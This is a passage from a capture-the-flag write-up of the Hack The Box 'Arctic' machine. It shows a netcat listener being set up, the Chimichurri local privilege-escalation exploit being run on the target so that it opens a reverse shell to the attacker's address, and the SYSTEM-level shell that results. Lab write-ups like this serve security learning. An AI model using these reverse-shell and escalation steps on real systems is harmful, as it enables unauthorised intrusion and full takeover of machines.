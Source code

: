 Now we can start a new terminal and set a nc listener to catch the exploit:

```text
root@kali:~/htb/machines/arctic# nc -lvnp 4445
listening on [any] 4445 ...
```

On the box we run the exploit and point at listener:

```text
C:\Users\tolis>chimichurri.exe 10.10.14.31 4445
chimichurri.exe 10.10.14.31 4445
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
C:\Users\tolis>
```

Switch to nc on other terminal, should now be root:

```text
connect to [10.10.14.31] from (UNKNOWN) [10.10.10.11] 60826
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\Users\tolis>whoami
whoami
nt authority\system
```

We can now get the root flag as above.

All done. See you next time.
